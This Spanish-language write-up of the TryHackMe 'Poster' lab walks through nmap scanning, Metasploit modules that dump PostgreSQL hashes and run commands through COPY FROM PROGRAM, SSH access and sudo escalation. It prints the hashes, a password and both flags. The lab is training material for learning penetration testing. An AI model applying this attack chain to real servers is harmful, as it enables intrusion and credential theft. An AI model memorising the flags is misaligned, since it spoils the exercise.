




# Poster

## Escaneo de puertos

Ejecutamos un mapeo de los puertos de la máquina víctima con `nmap` para identificar los puertos abiertos que puedan ser explotados:

```bash
sudo nmap -sV -T4 -p- 10.10.127.180
```

Hay tres puertos abiertos: el 22 de SSH, el 80 de HTTP y el 5432 de PostgreSQL.


## Explotación de PostgreSQL

Usamos `msfconsole` para explotar una posible vulnerabilidad en la versión de PostgreSQL existente.


Buscamos `postgresql` en los módulos:

```bash
search postgresql
```

Usamos el módulo número 22.


Mostramos las opciones disponibles.


Asignamos la IP de la máquina víctima y lo ejecutamos:

```bash
set rhosts 10.10.127.180
```


Una vez obtenidas las credenciales, usamos el módulo para ejecutar comandos:

```bash
use auxiliary/admin/postgres/postgres_sql
```

Asignamos la contraseña `password` que obtuvimos anteriormente. Tenemos la versión exacta de PostgreSQL (9.5.21).


Ahora, usamos el siguiente módulo para “dumpear” los hashes de usuarios de la base de datos:

```bash
use auxiliary/scanner/postgres/postgres_hashdump
```

Obtenemos todos los hashes:


```
darkstart  md5 8842b99375db43e9fdf238753623a27d
poster     md5 78fb805c7412ae597b399844a54cce0a
postgres   md5 32e12f215ba27cb750c9e093ce4b5127
sistemas   md5 f7dbc0d5a06653e74da6b1af9290ee2b
ti         md5 7af9ac4c593e9e4f275576e13f935579
tryhackme  md5 03aab1165001c8f8ccae31a8824efddc
```

Usamos ahora el módulo para ejecución de comandos arbitrarios y abrimos una sesión:

```bash
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```


Mostramos el contenido de la carpeta del usuario y del archivo `credencials.txt`:


## Acceso por SSH

Accedemos al servidor por SSH con las credenciales de `dark`.


Inspeccionamos el directorio `/var/www/html`:


Encontramos las credenciales de `alison`.


## Escalada de privilegios

Entramos con el usuario `alison` por SSH (contraseña: `p4ssw0rdS3cur3!#`).



Comprobamos los permisos que tiene:

```bash
sudo -l
```

Vemos que puede ejecutar cualquier comando con sudo.



Nos hacemos root y obtenemos la flag de `root.txt`:



```
THM{c0ngrats_for_read_the_f1le_w1th_credent1als}
```

También obtenemos la flag del user:



```
THM{postgresql_fa1l_conf1gurat1on}
```
